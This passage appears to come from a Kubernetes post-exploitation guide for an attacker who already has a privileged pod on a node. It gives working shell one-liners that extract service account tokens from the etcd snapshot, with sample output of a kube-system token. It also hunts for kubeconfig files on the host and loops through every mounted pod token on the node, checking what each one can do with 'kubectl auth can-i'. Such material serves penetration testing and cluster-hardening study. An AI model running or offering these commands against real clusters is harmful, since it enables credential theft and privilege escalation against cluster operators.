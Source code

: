 **Extract the tokens from the database and show the service account name**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Same command, but some greps to only return the default token in the kube-system namespace**
```
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
Output:
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```


## Look for kubeconfigs in the host filesystem 

By default, nodes don't have `kubectl` installed. If you are lucky though, an administrator tried to make their life (and yours) a little easier by installing `kubectl` and their highly privileged credentials on the node. We're not so lucky on this GKE node 

**Some ideas:**
```bash
find / -name kubeconfig
find / -name .kube
grep -R "current-context" /home/
grep -R "current-context" /root/
```

## Grab all tokens from all pods on the system
You can access any secret mounted within any pod on the node you are on. In a production cluster, even on a worker node, there is usually at least one pod that has a mounted *token* that is bound to a *service account* that is bound to a *clusterrolebinding*, that gives you access to do things like create pods or view secrets in all namespaces. 

Look for tokens that have permissions to get secrets in kube-system. The examples below automate this process for you a bit:

**Simply list the namespace and location of every token**
```bash
kubectl exec -it everything-allowed-exec-pod -- chroot /host bash
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; \
for token in $tokens; \
do parent_dir="$(dirname "$token")"; \
namespace=`cat $parent_dir/namespace`; \
echo $namespace "|" $token ; \
done | sort
```

**Run kubectl can-i --list against ALL tokens found on the node**
Run this where you have kubectl installed
```
tokens=`kubectl exec -it everything-allowed-exec-pod -- chroot /host find /var/lib/kubelet/pods/ -name token -type l`; \
for filename in $tokens; \
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \
echo "Token Location: $filename_clean"; \
tokena=`kubectl exec -it everything-allowed-exec-pod -- chroot /host "cat $filename_clean"`; \
echo "What can I do?"; \
kubectl -v9 --token=$tokena auth can-i --list; echo; \
done
```
